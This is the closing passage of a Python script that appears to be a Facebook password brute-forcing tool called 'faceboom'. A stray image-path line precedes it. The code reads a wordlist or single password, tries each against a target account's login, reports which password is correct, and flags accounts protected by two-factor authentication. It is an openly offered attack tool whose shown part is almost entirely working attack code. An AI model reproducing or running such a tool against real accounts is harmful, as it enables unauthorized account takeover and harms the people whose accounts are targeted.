         faceboom.banner(target,wordlist,single_passwd)
        loop,passwords = (1,open(wordlist).readlines()) if not single_passwd else ("~",[single_passwd])
        for passwd in passwords:
                passwd = passwd.strip()
                if len(passwd) <6:continue
                write(wi+"["+yl+str(loop)+wi+"] Trying Password[ {"+yl+str(passwd)+wi+"} ]")
                retCode = faceboom.login(target, passwd)
                if retCode:
                    sys.stdout.write(wi+" ==> Login"+gr+" Success\n")
                    print(wi+"========================="+"="*len(passwd)+"======")
                    print(wi+"["+gr+"+"+wi+"] Password [ "+gr+passwd+wi+" ]"+gr+" Is Correct :)")
                    print(wi+"========================="+"="*len(passwd)+"======")
                    if retCode == 2:print(wi+"["+yl+"!"+wi+"]"+yl+" Warning: This account use ("+rd+"2F Authentication"+yl+"):"+rd+" It's Locked"+yl+" !!!")
                    break
                else:
                    sys.stdout.write(yl+" ==> Login"+rd+" Failed\n")
                    loop = loop + 1 if not single_passwd else "~"
        else:
                if single_passwd:
                    print(yl+"\n["+rd+"!"+yl+"] Sorry: "+wi+"The Password[ "+yl+passwd+wi+" ] Is Not Correct"+rd+":("+yl+"!"+wi)
                    print(gr+"["+yl+"!"+gr+"]"+yl+" Please Try Another password or Wordlist "+gr+":)"+wi)
                else:
                    print(yl+"\n["+rd+"!"+yl+"] Sorry: "+wi+"I Can't Find The Correct Password In [ "+yl+wordlist+wi+" ] "+rd+":("+yl+"!"+wi)
                    print(gr+"["+yl+"!"+gr+"]"+yl+" Please Try Another Wordlist. "+gr+":)"+wi)
        sys.exit(1)
   else:
       print(parse.usage)
       sys.exit(1)


if __name__=='__main__':
    Main()


##############################################################
#####################                #########################
#####################   END OF TOOL  #########################
#####################                #########################
##############################################################
#This Tool by Oseid Aldary
#Have a nice day :)
#GoodBye